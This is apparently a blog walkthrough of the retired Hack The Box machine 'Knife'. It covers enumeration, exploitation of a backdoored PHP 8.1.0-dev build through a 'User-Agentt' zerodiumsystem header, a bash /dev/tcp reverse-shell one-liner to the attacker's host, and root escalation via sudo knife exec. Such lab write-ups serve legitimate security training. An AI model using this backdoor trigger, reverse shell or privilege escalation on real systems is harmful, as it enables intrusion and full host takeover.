 ```yaml
---
layout: single
title: "Walktrough: HTB Knife"
namespace: htb-knife
category: Walkthrough
tags:
   - HackTheBox
   - HTB Easy
   - HTB Linux
date: 2021-08-28 12:00:00
header:
   teaser: https://i.imgur.com/U5A7c9y.png
   og_image:   *teaser
redirect_from: /writeup/2021/08/htb-knife
---
```


Hello guys!

This week's machine will be **Knife**, another easy-rated Linux box from [Hack The Box](https://www.hackthebox.eu/), created by [MrKN16H](https://app.hackthebox.eu/users/98767).<!--more-->

:information_source: **Info**: Write-ups for Hack The Box machines are posted as soon as they’re retired.
{: .notice--info}

![HTB Knife](https://i.imgur.com/3IO9vBj.png){: .align-center}

This was a pretty straightforward box where you must pay attention to the details (in the case of the vulnerable web server) and always go for the low-hanging fruits first like abusing the `sudo` permissions user already have.

I hope you guys enjoy it!

## Enumeration

As usual, started with a quick `nmap` scan to check the published services on this box:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 17:50 -03
Nmap scan report for 10.10.10.242
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```

### 80/TCP - HTTP Service

Accessing the website we can see a simple institutional page from a health company, as below:

![HTB Knife - HTTP Service](https://i.imgur.com/oAbssxJ.png){: .align-center}

After accessing the website, gathered some information about the page, its components, and the server from which it was published using `whatweb,` and what called attention was the `X-Powered-By` header pointing to a **dev** version of **PHP 8.1.0**.

```bash
$ whatweb --color=never -a 3 10.10.10.242 | tee whatweb.txt
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], , Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Initial Access and User flag

As dev versions often contain vulnerabilities, decided to search it using `searchsploit` and found an RCE vulnerability as listed below:

```bash
$ searchsploit "8.1.0-dev"
---------------------------------------------------------------------- ----------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ----------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                   | php/webapps/49933.py
---------------------------------------------------------------------- ----------------------------
Shellcodes: No Results
```

This vulnerability consists in a backdor which was added in some commits of PHP source code by compromised accounts and, when a request arrives with a header `User-Agentt: "zerodiumsystem('cmd');"`, the `cmd` will be interpreted and executed in the system. The payload available emulate a non-interactive shell and, from it, started an interactive session using the payload `bash -c 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1'` which returned a session from **james**'s user account, where in his home directory I was able to read the contents of `user.txt`, obtaining the first flag.

```bash
james@knife:~$ id && hostname
uid=1000(james) gid=1000(james) groups=1000(james)
knife
james@knife:~$ cat user.txt
<redacted>
```

## Root flag

As usual, started with the command `sudo -l` and we were lucky once again, as output below:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
   (root) NOPASSWD: /usr/bin/knife              
```

Doing a quick search on this binary, found out that it's related to [Chef's Configuration Management Solution](https://www.chef.io/) and, according to [knife \| GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo) page, could be easily used to privesc to root, as below, allowing us to get the final flag :smiley:

```bash
james@knife:~$ sudo /usr/bin/knife --help                                                                                 Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

[...]

james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# cat root.txt
<redacted>
```

I hope you guys have enjoyed!

See you at the next post :smile:
